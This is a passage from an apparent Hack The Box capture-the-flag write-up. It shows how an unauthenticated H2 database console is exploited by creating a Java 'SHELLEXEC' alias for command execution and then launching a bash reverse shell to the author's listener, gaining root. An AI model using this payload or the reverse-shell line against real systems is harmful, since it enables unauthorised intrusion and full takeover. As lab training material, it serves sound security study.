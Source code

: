 We don't have credentials, but when creating a new database, it redirects us to the console with user _sa_ and no password.
```markdown
(...)
JDBC URL: jdbc:h2:~/newdatabase
User Name: sa
Password:
```

![H2 Console](https://kyuu-ji.github.io/htb-write-up/hawk/hawk_h2-2.png)

The [article for the exploit](https://mthbernardes.github.io/rce/2018/03/14/abusing-h2-database-alias.html) explains the vulnerability.
Running the command from the article:
```markdown
CREATE ALIAS SHELLEXEC AS $$ String shellexec(String cmd) throws java.io.IOException { java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(cmd).getInputStream()).useDelimiter("\\A"); return s.hasNext() ? s.next() : "";  }$$;
CALL SHELLEXEC('id')
```

This executes the `id` command and shows that it was executed as root:

![H2 Console](https://kyuu-ji.github.io/htb-write-up/hawk/hawk_h2-3.png)

Code execution works, so creating a reverse shell script _(revshell.sh)_ on the box, making it executable with `chmod +x revshell.sh` and then executing it:
```markdown
bash -i >& /dev/tcp/10.10.14.6/9003 0>&1
```
```markdown
(...)SHELLEXEC('/tmp/revshell.sh')
```

After running the SQL query, the listener on my IP and port 9003 starts a reverse shell session as root!
